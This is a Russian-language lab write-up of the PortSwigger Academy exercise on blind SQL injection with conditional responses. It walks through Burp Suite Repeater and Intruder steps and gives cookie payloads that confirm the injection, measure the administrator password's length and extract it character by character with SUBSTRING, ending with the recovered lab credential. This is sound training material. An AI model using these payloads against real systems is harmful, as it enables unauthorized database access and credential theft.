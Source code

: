 Откроем лабораторную работу
При обновлении страницы появлется надпись `Welcome back!`, что является индикатором для возможной слепой SQL-инъекции
Перейдем в `Proxy` -> `HTTP history` и найдем необходимый запрос на коревую страницу и отправим данный запрос в `Repeater`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/7.%20Blind%20SQL%20injection%20with%20conditional%20responses/pics%20for%20walktrough/1.png)
Далее проверим наличие SQL-инъекции добавивив в Cookie пэйлоад
```
Cookie: TrackingId=89ohA4sDLYal579L' and '1'='1
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/7.%20Blind%20SQL%20injection%20with%20conditional%20responses/pics%20for%20walktrough/2.png)
Получаем 200 ответ, это означать, что слепая инъекция существует, и ее тригером является фраза - `Welcome back!`
Далее модифицируем наш SQL запрос, чтобы мы могли быть уверены, что УЗ `administrator` (которая дана нам по заданию) существует и у нее есть пароль
```
Cookie: TrackingId=89ohA4sDLYal579L' and (SELECT 'a' from users WHERE username='administrator' AND LENGTH(password)>1)='a;
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/7.%20Blind%20SQL%20injection%20with%20conditional%20responses/pics%20for%20walktrough/3.png)
Далее отправим данный запрос в `Intruder`, чтобы узнать количество символов в пароле
```
Cookie: TrackingId=89ohA4sDLYal579L' and (SELECT 'a' from users WHERE username='administrator' AND LENGTH(password)>§1§)='a;
```

В разделе `Payload` выбираем `Payload type: Number` и выберем `Number range от 1 до 25`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/7.%20Blind%20SQL%20injection%20with%20conditional%20responses/pics%20for%20walktrough/4.png)
И в разделе `Settings` в поле `Grep - Match` выберем фразу, которая будет индикатором успешности SQL-инъекции. В нашем случае, это фраза - `Welcome back!`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/7.%20Blind%20SQL%20injection%20with%20conditional%20responses/pics%20for%20walktrough/5.png)
Запустим атаку, и узнаем, что пароль УЗ `administrator` > 19 символов, а значит 20 символов.
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/7.%20Blind%20SQL%20injection%20with%20conditional%20responses/pics%20for%20walktrough/6.png)
Далее методом `SUBSTRING(password,1,1)`. Данная строка означает, что нужно проверить вхождение в строку password символов с позиции 1, и нужно взять 1 символ, иначе говоря, `SUBSTRING(string, start, length)`
```
Cookie: TrackingId=89ohA4sDLYal579L' and (SELECT SUBSTRING(password,1,1) from users WHERE username='administrator')='§a§;
```
И список символов, которые мы проверяем - `a-z`, `0-9`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/7.%20Blind%20SQL%20injection%20with%20conditional%20responses/pics%20for%20walktrough/7.png)
После запуска видим, что первый символ пароля - `n`
И далее последовательно выполняем атаку по каждой отдельной позиции в пароле 
```
Cookie: TrackingId=89ohA4sDLYal579L' and (SELECT SUBSTRING(password,1,1) from users WHERE username='administrator')='§a§;
Cookie: TrackingId=89ohA4sDLYal579L' and (SELECT SUBSTRING(password,2,1) from users WHERE username='administrator')='§a§;
Cookie: TrackingId=89ohA4sDLYal579L' and (SELECT SUBSTRING(password,3,1) from users WHERE username='administrator')='§a§;
Cookie: TrackingId=89ohA4sDLYal579L' and (SELECT SUBSTRING(password,4,1) from users WHERE username='administrator')='§a§;
...
Cookie: TrackingId=89ohA4sDLYal579L' and (SELECT SUBSTRING(password,20,1) from users WHERE username='administrator')='§a§;
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/7.%20Blind%20SQL%20injection%20with%20conditional%20responses/pics%20for%20walktrough/8.png)
Чтобы сократить данный райтап, не стану мучать скрином каждого символа. В итоге у меня получились следующие креды `administrator:ny8pt4hwe6njv329utp7`, и успешно аутентифицуемся под этой записью и получим уведомление об успешном выполнении лабораторной работы
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/7.%20Blind%20SQL%20injection%20with%20conditional%20responses/pics%20for%20walktrough/10.png)
